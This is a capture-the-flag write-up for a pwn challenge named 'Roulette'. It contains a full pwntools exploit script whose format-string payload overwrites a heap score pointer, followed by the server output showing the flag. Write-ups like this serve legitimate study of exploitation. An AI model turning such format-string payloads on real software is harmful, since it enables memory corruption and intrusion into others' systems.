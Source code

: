# Roulette

**Category**: Pwn

![./screenshots/0.png](./screenshots/0.png)

# Solution

The intended solution involves integer overflow, insecure PRNG & leaking values using another bug(format string).

However, during the CTF, I found an un-intended pathway to exploit the roulette game & get the flag  

```py
#!/usr/bin/env python
from pwn import *
exe = context.binary = ELF('./roulette.bin')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('challenges.ctfd.io', 30426)
    else:
        return process([exe.path] + argv, *a, **kw)


magic_num   = b'202009'
num_rounds  = b'%10000001c%12$n' # overwriting the 'score' pointer on the heap(12th element), 
                                 # https://www.youtube.com/watch?v=KpXsfimrkFo


# ==============================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b'play(Up to 2)?\n')
io.sendline(b'2')
io.recvuntil(b'Choose your bet (1-36)\n')
io.sendline(magic_num)
io.recvuntil(b'you entered the right one):\n')
io.sendline(num_rounds)
io.recvuntil('Won')

io.interactive()
```

The format string payload(in ``num_rounds``) will overwrite the 'score' pointer on the heap with the value ``10000001``

![./screenshots/1.png](./screenshots/1.png)

output from server:
```
You Won!
The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

(: